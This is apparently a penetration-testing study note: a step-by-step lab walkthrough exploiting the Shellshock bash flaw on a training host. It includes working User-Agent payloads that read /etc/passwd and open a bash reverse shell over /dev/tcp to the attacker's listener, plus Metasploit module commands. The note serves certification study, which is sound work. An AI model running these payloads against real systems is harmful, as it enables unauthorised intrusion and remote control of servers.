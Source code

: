 # Bash CVE-2014-6271 Vulnerability (Shellshock)


__Step 1: Navigate to the target domain.__

![image0](/Image/Shellshock/image0.jpg)

_A website is running at port 80 of the target._

__Step 2: Right-click and select "View Page Source."__

![image1](/Image/Shellshock/image1.jpg)


_A CGI script is running on the target server._

__Step 3: Use the Nmap NSE script to check if the server is vulnerable to shellshock attack.__

__Command:__

- __`nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local`__

![image2](/Image/Shellshock/image2.jpg)



__Step 4: Right-click and select “Send to Repeater” Option and Navigate to the Repeater tab.__

![image3](/Image/Shellshock/image3.jpg)


__Step 5: Modify the User-Agent and inject the malicious payload.__

__Payload:__

- __`() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`__


![image4](/Image/Shellshock/image4.jpg)


__Click on the Send button.__

![image5](/Image/Shellshock/image5.jpg)

__Step 6: Start netcat__

command:

__`nc -nvlp 1234`__

__Step 7: use the below payload in user agent__
command:
- __`() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/<yourip>/1234 0>&1'`__

![image10](/Image/Shellshock/image10.png)

__you will get reverse shell__

![image11](/Image/Shellshock/image11.png)



# Method 2 using metasploit framework

__Step 1: Start the `msfconsole`__
__command:__
- __`service postgresql start & msfconsole`__

![image12](https://github.com/Chittu13/eJPTv2/blob/main/Image/Shellshock/image12.png)

__Step 2: Search shellshock and type the below command__
__command:__
 - __`use exploit/multi/http/apache_mod_cgi_bash_env_exec`__
![image13](/Image/Shellshock/image13.png)

__Step 3: set the rhost and 
__command:__
  - __`set RHOSTS <target ip>`__
  - __`set TARGETURI /gettime.cig`__
![image13](/Image/Shellshock/image14.png)

